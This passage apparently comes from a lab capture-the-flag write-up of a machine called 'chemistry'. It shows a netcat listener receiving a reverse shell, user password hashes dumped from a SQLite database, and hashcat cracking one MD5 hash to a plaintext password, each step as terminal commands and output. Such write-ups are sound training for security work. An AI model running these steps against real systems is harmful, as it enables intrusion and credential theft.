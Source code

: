 ```terminal
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

We upload the file, setup our listener and view it.

```terminal
[★]$ nc -lvnp 9001     
listening on [any] 9001 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.38] 54332
sh: 0: can't access tty; job control turned off
$ id                  
uid=1001(app) gid=1001(app) groups=1001(app)
```

## **Privilege Escalation**

### app -> rosa

On `app`'s home directory we find a directory called `instance` with a db file in it.

```terminal
app@chemistry:~/instance$ ls
database.db
app@chemistry:~/instance$ file database.db 
database.db: SQLite 3.x database, last written using SQLite version 303100
```

We can use `sqlite3` to open it.

```terminal
pp@chemistry:~/instance$ sqlite3 database.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables;
Error: unknown command or invalid arguments:  "tables;". Enter ".help" for help
sqlite> .tables
structure  user     
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
```

We managed to find rosa`s password hash, it's md5 so let's crack it.

```terminal
hashcat ./rosa.hash /usr/share/wordlists/rockyou.txt -m 0
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

63ed86ee9f624c7b14f1d4f43dc251a5:unicorniosrosados        
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 63ed86ee9f624c7b14f1d4f43dc251a5
Time.Started.....: Sat Nov 30 18:46:45 2024 (1 sec)
```